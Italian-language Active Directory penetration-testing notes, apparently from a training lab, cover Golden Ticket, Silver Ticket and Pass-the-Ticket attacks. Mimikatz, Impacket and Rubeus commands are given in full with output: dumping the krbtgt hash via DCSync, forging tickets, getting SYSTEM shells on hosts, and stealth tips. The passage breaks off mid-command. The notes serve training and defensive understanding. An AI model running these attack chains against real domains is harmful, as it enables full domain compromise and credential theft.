I ticket sono protetti da chiavi segrete per impedirne la falsificazione (il TGT è protetto dalla chiave del KDC, il TGS ticket dalla chiave del service account). Se un attaccante riesce a ottenere una di queste chiavi, può forgiare ticket arbitrari per accedere ai servizi con diritti arbitrari. Gli attacchi descritti sono:
- Silver Ticket — falsificazione del TGS ticket (usando la chiave del service account)
- Golden Ticket — falsificazione del TGT (usando la chiave del KDC)

#### Golden Ticket
L'attacco Golden Ticket permette agli attaccanti di falsificare e firmare TGT (Ticket Granting Ticket) utilizzando l'hash della password dell'account **krbtgt**. Quando questi ticket vengono presentati a un server AD, le informazioni in essi contenute non vengono verificate in alcun modo e vengono considerate valide, poiché firmate con l'hash della password dell'account krbtgt.
  - Ad esempio, è possibile creare un ticket per un utente inesistente (come DoesNotExist), far risultare nel ticket che tale utente è un Domain Administrator, e richiedere un ticket TGS (Ticket Granting Service) che consente di accedere a macchine remote. Per ragioni di discrezione, è quasi sempre preferibile utilizzare utenti che esistono realmente nel dominio. Tuttavia, inserire informazioni false nel ticket può essere un ottimo modo per dimostrare l'impatto e la mancanza di monitoraggio di un'organizzazione su questi eventi.

Una delle cose più preoccupanti del Golden Ticket attack è la frequenza con cui i penetration tester riescono ad ottenere questa chiave: eseguendo DCSYNC (tramite Mimikatz) o SecretsDump (tramite Impacket), la chiave in questione è l'**hash NTLM di KRBTGT**.
- Questo account è particolare perché la sua password deve essere cambiata due volte e non può essere modificata in rapida successione.
- La foresta AD deve raggiungere la piena convergenza, il che significa che la modifica deve replicarsi sull'intero dominio prima di poter essere effettuata nuovamente.
- Questo avviene perché questa chiave è utilizzata dai Domain Controller per autenticarsi tra loro.
- Il processo dovrebbe completarsi entro 10 ore, ma le organizzazioni solitamente attendono 24 ore per ridurre al minimo il rischio di problemi. In quella finestra temporale, se l'attaccante si accorge del cambiamento e la riacquisisce, l'intero processo dovrà essere ripetuto.

**Teoria:**

Dopo la richiesta di TGT (AS-REQ), il Domain Controller restituisce all'utente il suo TGT. Il TGT è un dato che contiene informazioni sull'utente, tutte racchiuse nel PAC (Privilege Attribute Certificate).

Il PAC viene copiato in ogni ticket TGS affinché gli account di servizio sappiano con chi hanno a che fare. Quindi, queste informazioni devono essere adeguatamente protette per impedire agli utenti di modificarle arbitrariamente.

I Domain Controller usano la chiave dell'account krbtgt per cifrare i TGT; è quindi necessario conoscere la password di questo account per poter modificare un TGT.

In qualsiasi ambiente AD, krbtgt è l'account più sensibile e cruciale, poiché garantisce che gli utenti appartengano ai gruppi corretti.
Questo account è semplice, privo di diritti particolari e, per impostazione predefinita, è disattivato. Questa scarsa esposizione lo protegge meglio.

Ma cosa succede se un attaccante ruba il segreto dell'account krbtgt? Può decifrare qualsiasi TGT, e quindi il PAC al suo interno, modificarne arbitrariamente le informazioni (ad esempio facendo sembrare che un utente appartenga al gruppo Domain Admins) e ricifrarle usando il segreto di krbtgt. Questo ticket falsificato è chiamato **Golden Ticket**.

**Falsificare un Golden Ticket è un'ottima tecnica per mantenere la persistenza all'interno di un ambiente AD**. Una volta ottenuto il pieno controllo del dominio, un attaccante può estrarre l'hash NTLM dell'account krbtgt tramite DCSync (o dal file NTDS.DIT con vari metodi). Questo include il nome del dominio, il SID del dominio, il nome e il RID dell'account da impersonare (ad es. RID 500 per l'account amministratore predefinito), e i RID dei gruppi a cui l'account dovrebbe appartenere. Una volta ottenute tutte e quattro le informazioni, è possibile falsificare un ticket Kerberos per l'account bersaglio.

Utilizzando un attacco Pass the Ticket, è possibile importare il Golden Ticket nella sessione corrente per usare strumenti nel contesto dell'account impersonato. Come attaccante, puoi falsificare un ticket per impersonare un utente con privilegi elevati che, pur avendo accesso privilegiato, potrebbe non far parte di gruppi fortemente monitorati come Domain Admins ed Enterprise Admins.


##### Golden Ticket su Windows
Per falsificare un Golden Ticket sono necessari diversi elementi:
- Nome del dominio
- SID del dominio
- Nome utente da impersonare
- Hash di KRBTGT
- 
SID del dominio usando Get-DomainSID da PowerView:

```
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainSID

S-1-5-21-2974783224-3764228556-2640795941
```

Poi, dobbiamo aver compromesso in qualche modo l'account **krbtgt** per ottenere il **suo hash NTLM**. Quando abbiamo queste informazioni, possiamo usare **Mimikatz per falsificare un Golden Ticket**. Se abbiamo compromesso un account con privilegi DCSync, possiamo usare Mimikatz per ottenere l'hash di krbtgt con il seguente comando:
```
PS C:\Tools> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:krbtgt /domain:inlanefreight.local
[DC] 'inlanefreight.local' will be the domain
[DC] 'DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'krbtgt' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : krbtgt

** SAM ACCOUNT **

SAM Username         : krbtgt
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   :
Password last change : 10/14/2022 6:51:29 AM
Object Security ID   : S-1-5-21-2974783224-3764228556-2640795941-502
Object Relative ID   : 502

Credentials:
  Hash NTLM: 810d754e118439bab1e1d13216150299
    ntlm- 0: 810d754e118439bab1e1d13216150299
<SNIP>
```

Abbiamo ora l'hash NTLM di krbtgt, che è **810d754e118439bab1e1d13216150299**. Per impersonare l'account Administrator, possiamo usare Mimikatz per falsificare il Golden Ticket come segue:
```
mimikatz # kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-2974783224-3764228556-2640795941 /rc4:810d754e118439bab1e1d13216150299 /ptt

User      : Administrator
Domain    : inlanefreight.local (INLANEFREIGHT)
SID       : S-1-5-21-2974783224-3764228556-2640795941
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 810d754e118439bab1e1d13216150299 - rc4_hmac_nt
Lifetime  : 8/17/2020 2:52:10 PM ; 8/15/2030 2:52:10 PM ; 8/15/2030 2:52:10 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ inlanefreight.local' successfully submitted for current session
mimikatz # exit
Bye!
```

Come vediamo nell'ultima riga (prima dell'uscita), il Golden Ticket è stato creato e inserito nella sessione corrente. Possiamo verificarlo usando il comando klist.
```
PS C:\Tools> klist

Current LogonId is 0:0x3f22d82

Cached Tickets: (1)

#0>     Client: Administrator @ inlanefreight.local
        Server: krbtgt/inlanefreight.local @ inlanefreight.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 8/17/2020 14:52:10 (local)
        End Time:   8/15/2030 14:52:10 (local)
        ...
```

Abbiamo quindi un TGT valido che indica che siamo Administrator e che apparteniamo a diversi gruppi, incluso Domain Admins. Se dobbiamo richiedere un servizio, chiederemo un ticket TGS usando questo TGT, e una copia del PAC falsificato verrà incorporata nel ticket TGS. Ad esempio, se vogliamo accedere a un server tramite WinRM, avremo una shell remota come Administrator.
```
PS C:\Tools> Enter-PSSession dc01
[dc01]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami

inlanefreight\administrator
```

E tornando alla nostra shell originale, possiamo vedere che abbiamo ora un ticket TGS per l'SPN HTTP/dc01 come Administrator.
```
PS C:\Tools> klist

Current LogonId is 0:0x3f22d82

Cached Tickets: (2)

#0>     Client: Administrator @ inlanefreight.local
        Server: krbtgt/inlanefreight.local @ inlanefreight.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        ...

#1>     Client: Administrator @ inlanefreight.local
        Server: HTTP/dc01 @ INLANEFREIGHT.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        ...
```

Si capisce che è un TGT o un TGS, tra le altre cose, perchè:
- TGT ha Server -> krbtgt...
- TGS ha Server con il servizio

##### Golden Ticket su Linux
Ricerca del SID del dominio con ```lookupsid```:
```
Nanan@htb[/htb]$ lookupsid.py inlanefreight.local/pixis@dc01.inlanefreight.local -domain-sids

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at dc01.inlanefreight.local
[*] StringBinding ncacn_np:dc01.inlanefreight.local[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2974783224-3764228556-2640795941
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\Administrator (SidTypeUser)
501: INLANEFREIGHT\Guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
503: INLANEFREIGHT\DefaultAccount (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
<SNIP>
```

Una volta ottenuto il SID del domini, si può creare un Golden Ticket usando ```ticketer.py```.
```
Nanan@htb[/htb]$ ticketer.py -nthash 810d754e118439bab1e1d13216150299 -domain-sid S-1-5-21-2974783224-3764228556-2640795941 -domain inlanefreight.local Administrator

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for inlanefreight.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncAsRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncASRepPart
[*] Saving ticket in Administrator.ccache
```

Il ticket è stato creato e salvato nella cartella corrente come  ```Administrator.ccache```. Si può adesso usare importandolo nella variabile d'ambiente ```KRB5CCNAME``` e usarlo con i tool impacket con il parametro -k.

```
Nanan@htb[/htb]$ export KRB5CCNAME=./Administrator.ccache
Nanan@htb[/htb]$ psexec.py -k -no-pass dc01.inlanefreight.local

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on dc01.inlanefreight.local.....
[*] Found writable share ADMIN$
[*] Uploading file WVkWAnvd.exe
[*] Opening SVCManager on dc01.inlanefreight.local.....
[*] Creating service pmfM on dc01.inlanefreight.local.....
[*] Starting service pmfM.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

#### Silver Ticket
Ogni account macchina possiede un hash NTLM; questo è l’hash del computer, rappresentato come account SYSTEM$. Questo è la PSK (Pre-Shared Key) tra il dominio e la workstation, utilizzata per firmare i ticket Kerberos TGS (Ticket Granting Service). Questo ticket è meno potente rispetto al TGT (Golden Ticket), poiché può accedere solo a quella singola macchina. Tuttavia, quando si crea un TGT, l’attaccante deve contattare il Domain Controller per farsi generare un ticket TGS prima di poter accedere a qualsiasi macchina. Questo crea un record di audit unico, che non appare necessariamente malevolo, ma su cui possono essere applicate euristiche per identificare comportamenti anomali. Quando si falsifica un ticket TGS, l’attaccante può bypassare il Domain Controller e andare direttamente al target, riducendo al minimo i log lasciati.


**Teoria:**

Quando un utente richiede un ticket TGS, invia il proprio TGT al Domain Controller. Il Domain Controller determina quale account espone lo SPN richiesto dall’utente. Successivamente copia le informazioni dell’utente (il PAC) nel ticket TGS, che verrà poi cifrato con il segreto dell’account di servizio associato allo SPN.

Siccome l’utente non conosce il segreto dell’account di servizio, non può modificare le proprie informazioni nel ticket TGS. **Ma cosa succede se un utente compromette un account di servizio e quindi ne conosce il segreto?**

L’attaccante può creare da zero un ticket di servizio, poiché può generare un PAC arbitrario e cifrarlo con il segreto rubato. Una volta creato questo ticket TGS, l’attaccante lo presenta al servizio. Il servizio può decifrarlo perché è stato cifrato con la propria password, e leggerà il contenuto del PAC. Dato che è stato falsificato, l’attaccante può inserire qualsiasi informazione desideri, come ad esempio essere un amministratore di dominio. Questo ticket falsificato è chiamato **Silver Ticket**.

Per creare un Silver Ticket, un attaccante ha bisogno dell’hash NTLM (o delle chiavi) di un account di servizio o macchina, del SID del dominio, di un host target, del nome del servizio (SPN), di un nome utente arbitrario e delle informazioni sui gruppi. I Silver Ticket possono essere creati per qualsiasi account utente, esistente o meno.

Il ticket può essere creato utilizzando Mimikatz o impacket e poi iniettato in memoria per accedere a un servizio remoto. Un Silver Ticket è un ticket TGS falsificato, quindi il suo utilizzo non richiede comunicazione con il Domain Controller. Eventuali log vengono generati solo sull’host target. Per questo motivo, i Silver Ticket sono più stealth (discreti) rispetto ai Golden Ticket.


##### Silver Ticket su Windows
Sono necessari diversi elementi per creare un Silver Ticket. Innanzitutto, serve il SID del dominio. Questa informazione può essere ottenuta usando la funzione Get-DomainSID di PowerView.

```
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainSID

S-1-5-21-2974783224-3764228556-2640795941
```

È inoltre necessario aver compromesso un account di servizio (in qualche modo) per ottenere il suo hash NTLM. Bisogna anche specificare uno SPN, **poiché un ticket TGS viene sempre generato per un singolo SPN**. Possiamo usare Mimikatz per creare un Silver Ticket quando abbiamo queste informazioni.

Supponiamo di aver compromesso l’account ```SQL01$```. Abbiamo il suo hash NTLM e vogliamo creare un ticket TGS per accedere al filesystem di ```SQL01```. Avremo bisogno di un ticket TGS ```CIFS/SQL01```.

```
PS C:\Tools> mimikatz.exe 

<SNIP>

mimikatz # kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-2974783224-3764228556-2640795941 /rc4:ff955e93a130f5bb1a6565f32b7dc127 /target:sql01.inlanefreight.local /service:cifs  /ptt

User      : Administrator
Domain    : inlanefreight.local (INLANEFREIGHT)
SID       : S-1-5-21-2974783224-3764228556-2640795941
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: ff955e93a130f5bb1a6565f32b7dc127 - rc4_hmac_nt
Service   : cifs
Target    : sql01.inlanefreight.local
Lifetime  : 8/17/2020 3:22:27 PM ; 8/15/2030 3:22:27 PM ; 8/15/2030 3:22:27 PM
-> Ticket : ` Pass The Ticket `

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ inlanefreight.local' successfully submitted for current session
```

Come mostrato nell’ultima riga, il Silver Ticket è stato creato e inserito nella sessione corrente. Mimikatz lo chiama Golden Ticket, ma in realtà è un ticket TGS generato, quindi è un Silver Ticket. Possiamo verificarlo con l’utilità klist.

```
PS C:\Tools> klist

Current LogonId is 0:0x3f22d82

Cached Tickets: (1)

#0>     Client: Administrator @ inlanefreight.local
        Server: cifs/sql01.inlanefreight.local @ inlanefreight.local
        KerbTicket Encryption Type: RSADSI RC4-HMAC(NT)
        Ticket Flags 0x40a00000 -> forwardable renewable pre_authent
        Start Time: 8/17/2020 15:22:27 (local)
        End Time:   8/15/2030 15:22:27 (local)
        Renew Time: 8/15/2030 15:22:27 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0
        Kdc Called:
```
Ora che abbiamo un ticket per accedere al filesystem di ```SQL01```, possiamo usare il comando dir.

```
PS C:\Tools> dir //sql01.inlanefreight.local/c$

    Directory: \\sql01.inlanefreight.local\c$

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        7/27/2020   9:24 PM                DB_backups
d-----        7/16/2016   9:23 AM                PerfLogs
d-r---        7/30/2020   9:59 PM                Program Files
d-----        7/30/2020   9:59 PM                Program Files (x86)
d-----        7/27/2020   9:03 PM                StorageReports
d-----        8/14/2020  10:54 PM                Tools
d-r---        8/14/2020   7:06 AM                Users
d-----        7/25/2020   8:20 PM                Windows
```

Possiamo anche creare un processo “sacrificale”. Creiamo un ticket e salviamolo in ```sql01.kirbi```.

```
C:\Tools> mimikatz.exe "kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-2974783224-3764228556-2640795941 /rc4:ff955e93a130f5bb1a6565f32b7dc127 /target:sql01.inlanefreight.local /service:cifs /ticket:sql01.kirbi" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # kerberos::golden /domain:inlanefreight.local /user:Administrator /sid:S-1-5-21-2974783224-3764228556-2640795941 /rc4:ff955e93a130f5bb1a6565f32b7dc127 /target:sql01.inlanefreight.local /service:cifs /ticket:sql01.kirbi
User      : Administrator
Domain    : inlanefreight.local (INLANEFREIGHT)
SID       : S-1-5-21-2974783224-3764228556-2640795941
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: ff955e93a130f5bb1a6565f32b7dc127 - rc4_hmac_nt
Service   : cifs
Target    : sql01.inlanefreight.local
Lifetime  : 4/4/2023 3:10:29 PM ; 4/1/2033 3:10:29 PM ; 4/1/2033 3:10:29 PM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'Administrator @ inlanefreight.local' successfully submitted for current session

mimikatz(commandline) # exit
Bye!
```

Creazione di un processo sacrificale
```
C:\Tools> Rubeus.exe createnetonly /program:cmd.exe /show

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2


[*] Action: Create Process (/netonly)


[*] Using random username and password.

[*] Showing process : True
[*] Username        : 0HK7610O
[*] Domain          : 540GDGRA
[*] Password        : ZM83YNND
[+] Process         : 'cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 2832
[+] LUID            : 0x186a73
```

Questo comando apre una nuova finestra cmd.exe che fungerà da processo isolato (senza credenziali dell’utente corrente). Importiamo quindi il ticket:
```
C:\Tools> Rubeus.exe ptt /ticket:sql01.kirbi

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2


[*] Action: Import Ticket
[+] Ticket successfully imported!
```

Uso del nuovo processo con PSExec
```
C:\Tools> PSExec.exe -accepteula \\sql01.inlanefreight.local cmd

PsExec v2.42 - Execute processes remotely
Copyright (C) 2001-2023 Mark Russinovich
Sysinternals - www.sysinternals.com


Microsoft Windows [Version 10.0.17763.2628]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
SQL01
```

##### Silver Ticket su Linux
Anche qui si deve prima di tutto trovare il SID del dominio.
```
Nanan@htb[/htb]$ lookupsid.py inlanefreight.local/pixis@dc01.inlanefreight.local -domain-sids

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

Password:
[*] Brute forcing SIDs at dc01.inlanefreight.local
[*] StringBinding ncacn_np:dc01.inlanefreight.local[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2974783224-3764228556-2640795941
498: INLANEFREIGHT\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: INLANEFREIGHT\Administrator (SidTypeUser)
501: INLANEFREIGHT\Guest (SidTypeUser)
502: INLANEFREIGHT\krbtgt (SidTypeUser)
503: INLANEFREIGHT\DefaultAccount (SidTypeUser)
512: INLANEFREIGHT\Domain Admins (SidTypeGroup)
513: INLANEFREIGHT\Domain Users (SidTypeGroup)
<SNIP>
```
Poi si crea un Silver Ticket usando ticketer.py.

```
Nanan@htb[/htb]$ ticketer.py -nthash ff955e93a130f5bb1a6565f32b7dc127 -domain-sid S-1-5-21-2974783224-3764228556-2640795941 -domain inlanefreight.local -spn cifs/sql01.inlanefreight.local Administrator

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for inlanefreight.local/Administrator
[*]     PAC_LOGON_INFO
[*]     PAC_CLIENT_INFO_TYPE
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Signing/Encrypting final ticket
[*]     PAC_SERVER_CHECKSUM
[*]     PAC_PRIVSVR_CHECKSUM
[*]     EncTicketPart
[*]     EncTGSRepPart
[*] Saving ticket in Administrator.ccache
```

Il ticket è stato creato e salvato nel file Administrator.ccache. E ora si può creare la variabile d'ambiente KRB5CCNAME e usarlo con impacket con il paramentro -k.

```
Nanan@htb[/htb]$ export KRB5CCNAME=./Administrator.ccache
Nanan@htb[/htb]$ smbclient.py -k -no-pass sql01.inlanefreight.local

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

Type help for list of commands
# shares

ADMIN$
C$
DB_backups
IPC$

# use C$
# ls

drw-rw-rw-          0  Fri Aug 14 13:06:44 2020 $Recycle.Bin
-rw-rw-rw-     389408  Sat Jul 25 06:16:23 2020 bootmgr
-rw-rw-rw-          1  Sat Jul 25 06:16:23 2020 BOOTNXT
drw-rw-rw-          0  Fri Jul 31 04:16:35 2020 Config.Msi
drw-rw-rw-          0  Tue Jul 28 03:24:52 2020 DB_backups
drw-rw-rw-          0  Sat Jul 25 05:20:01 2020 Documents and Settings
-rw-rw-rw-  738197504  Fri Jul 31 04:43:10 2020 pagefile.sys
drw-rw-rw-          0  Sat Jul 25 06:18:27 2020 PerfLogs
drw-rw-rw-          0  Fri Jul 31 03:59:25 2020 Program Files
drw-rw-rw-          0  Fri Jul 31 03:59:35 2020 Program Files (x86)
drw-rw-rw-          0  Tue Jul 28 05:27:08 2020 ProgramData
drw-rw-rw-          0  Sat Jul 25 05:20:05 2020 Recovery
drw-rw-rw-          0  Tue Jul 28 03:03:22 2020 StorageReports
drw-rw-rw-          0  Tue Jul 28 03:02:51 2020 System Volume Information
drw-rw-rw-          0  Sat Aug 15 04:54:00 2020 Tools
drw-rw-rw-          0  Fri Aug 14 13:06:37 2020 Users
drw-rw-rw-          0  Mon Aug 17 21:26:39 2020 Windows
```

E poiché l’SPN è in chiaro e può essere modificato al volo, impacket può farlo per noi e ottenere una shell remota sul sistema compromesso.

```
Nanan@htb[/htb]$ export KRB5CCNAME=./Administrator.ccache
Nanan@htb[/htb]$ psexec.py -k -no-pass sql01.inlanefreight.local

Impacket v0.9.22.dev1+20200520.120526.3f1e7ddd - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on sql01.inlanefreight.local.....
[*] Found writable share ADMIN$
[*] Uploading file VyoVmCpn.exe
[*] Opening SVCManager on sql01.inlanefreight.local.....
[*] Creating service YHLC on sql01.inlanefreight.local.....
[*] Starting service YHLC.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system
```

#### Pass-the-Ticket
L’attacco Pass-the-Ticket (PtT) è un metodo di movimento laterale che non interagisce direttamente con LSASS (es. Sekurlsa::LogonPasswords). Questo è diventato estremamente importante a causa delle protezioni introdotte sul processo LSASS. In un’organizzazione ben protetta, il contenuto di LSASS potrebbe non essere particolarmente utile, e anche solo ispezionare il processo potrebbe probabilmente allertare i difensori.

Il Pass-the-Ticket utilizza il Ticket Granting Ticket (TGT) o il Ticket Granting Service (TGS) dell’utente. Il TGT è un ticket firmato che contiene una lista di privilegi. Questo TGT viene inviato al Domain Controller, che rilascia il ticket TGS utilizzabile per accedere alle macchine. Rubare uno di questi ticket rende possibile il movimento laterale.

##### Processi sacrificali
Questo è il concetto più importante da comprendere riguardo agli attacchi Kerberos, poiché la mancata creazione di un processo sacrificale può causare il malfunzionamento di un servizio. Questo perché è molto facile sovrascrivere i ticket Kerberos di una sessione di logon esistente.

Se l’account della macchina locale (SYSTEM$) perde il proprio ticket Kerberos, probabilmente non ne riceverà un altro fino al riavvio. Se un servizio perde il proprio ticket, non ne otterrà uno nuovo finché il servizio non viene riavviato o, in alcuni casi, fino al riavvio del sistema.

Un processo sacrificale crea una nuova sessione di logon e vi inietta i ticket. **Questo richiede privilegi amministrativi sulla macchina** e genera ulteriori IOC (Indicatori di Compromissione) che potrebbero essere rilevati. Tuttavia, causare un’interruzione del servizio durante un’operazione è molto peggio che essere rilevati a causa di un’esecuzione non sicura.

L’azione di Rubeus ```createnetonly``` crea un processo sacrificale, e i comandi successivi utilizzeranno il parametro ```/LUID:0xdeadbeef``` per interagirvi.

```
PS C:\Tools> .\Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2


[*] Action: Create Process (/net only)


[*] Using random username and password.

[*] Showing process : True
[*] Username        : Y1XGWQUL
[*] Domain          : HT3J3C08
[*] Password        : 967IB2AL
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 4288
[+] LUID            : 0xa4a39
```

> Quando si utilizza l’opzione ```/show```, viene mostrato il processo creato. Se non viene specificato ```/show```, il processo non viene visualizzato.

```
È possibile controllare tutti i ticket che si possono leggere ed estrarre usando l’azione triage di Rubeus.
PS C:\Tools> .\Rubeus.exe triage

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.2


Action: Triage Kerberos Tickets (All Users)

[*] Current LUID    : 0x892730

 -----------------------------------------------------------------------------------------------------------------------
 | LUID     | UserName                     | Service                                           | EndTime               |
 -----------------------------------------------------------------------------------------------------------------------
 | 0x17168  | SQL01$ @ INLANEFREIGHT.LOCAL | krbtgt/INLANEFREIGHT.LOCAL                        | 8/24/2020 1:38:16 PM  |
 | 0x17168  | SQL01$ @ INLANEFREIGHT.LOCAL | LDAP/DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT.LOCAL | 8/23/2020 8:23:24 AM  |
 | 0x3e4    | sql01$ @ INLANEFREIGHT.LOCAL | krbtgt/INLANEFREIGHT.LOCAL                        | 8/24/2020 12:53:21 PM |
 | 0x3e4    | sql01$ @ INLANEFREIGHT.LOCAL | ldap/dc01.inlanefreight.local/INLANEFREIGHT.LOCAL | 8/24/2020 12:53:21 PM |
 | 0x3e4    | sql01$ @ INLANEFREIGHT.LOCAL | GC/DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT.LOCAL   | 8/24/2020 12:53:21 PM |
 | 0x3e4    | sql01$ @ INLANEFREIGHT.LOCAL | cifs/DC01.INLANEFREIGHT.LOCAL                     | 8/24/2020 12:53:21 PM |
 | 0x89275d | pixis @ INLANEFREIGHT.LOCAL  | krbtgt/INLANEFREIGHT.LOCAL                        | 8/24/2020 7:44:20 PM  |
 | 0x89275d | pixis @ INLANEFREIGHT.LOCAL  | cifs/dc01                                         | 8/24/2020 7:44:20 PM  |
 | 0x3e7    | sql01$ @ INLANEFREIGHT.LOCAL | krbtgt/INLANEFREIGHT.LOCAL                        | 8/24/2020 1:37:30 PM  |
 | 0x3e7    | sql01$ @ INLANEFREIGHT.LOCAL | cifs/DC01                                         | 8/24/2020 1:37:30 PM  |
 | 0x3e7    | sql01$ @ INLANEFREIGHT.LOCAL | cifs/DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT.LOCAL | 8/24/2020 1:37:30 PM  |
 | 0x3e7    | sql01$ @ INLANEFREIGHT.LOCAL | SQL01$                                            | 8/24/2020 1:37:30 PM  |
 | 0x3e7    | sql01$ @ INLANEFREIGHT.LOCAL | LDAP/DC01.INLANEFREIGHT.LOCAL/INLANEFREIGHT.LOCAL | 8/24/2020 1:37:30 PM  |
 | 0x3e7    | sql01$ @ INLANEFREIGHT.LOCAL | ldap/dc01.inlanefreight.local                     | 8/24/2020 1:37:30 PM  |
 | 0x3e7    | sql01$ @ INLANEFREIGHT.LOCAL | ldap/DC02.LOGISTICS.INLANEFREIGHT.LOCAL           | 8/23/2020 8:23:20 AM  |
 -----------------------------------------------------------------------------------------------------------------------
```


L’LUID (Logon UID) corrente è ```0x892730```, ma non ci sono ticket associati alla sessione. Possiamo verificarlo anche con ```klist```.
```
PS C:\Tools> klist

Current LogonId is 0:0x892730

Cached Tickets: (0)
```


Con Rubeus è possibile estrarre il TGT di un utente. Il ticket appartiene a ```pixis@INLANEFREIGHT.LOCAL``` ed è associato al servizio ```krbtgt/INLANEFREIGHT.LOCAL``` (il TGT è cifrato con la chiave segreta di krbtgt).
```
PS C:\Tools> .\Rubeus.exe dump /luid:0x89275d /service:krbtgt /nowrap

  ______        _
 (_____ \      | |
  _____) )_   _| |__  _____ _   _  ___
 |  __  /| | | |  _ \| ___ | | | |/___)
 | |  \ \| |_| | |_) ) ____| |_| |___ |
 |_|   |_|____/|____/|_____)____/(___/

 v2.2.2

